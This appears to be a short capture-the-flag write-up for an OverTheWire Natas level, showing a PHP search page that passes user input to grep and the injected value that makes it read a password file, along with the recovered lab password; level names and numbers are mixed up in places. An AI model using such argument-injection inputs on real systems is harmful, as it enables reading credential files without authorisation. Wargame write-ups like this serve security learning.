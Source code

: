# Level 11

Leviathan OverTheWire Level 11: [level 11](https://overthewire.org/wargames/natas/)

## Level 11 info
Find words containing: 


## Answer
We first look at the sourcecode to understand how this programs finds words
[here](http://natas10.natas.labs.overthewire.org/index-source.html)

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
The only characters restricted are: ; | &

It seems like whatever we put in the input seems to be grepping. What if we give it an empty string and then search through a different file maybe /etc/natas_webpass/natas10

If we input:
```html
'' /etc/natas_webpass/natas11 #
```

We add the pound to ingore the dictionary.txt file 

```html
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
```

natas 11 password: UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk


## Level 11 Website
[natas11](http://natas11.natas.labs.overthewire.org)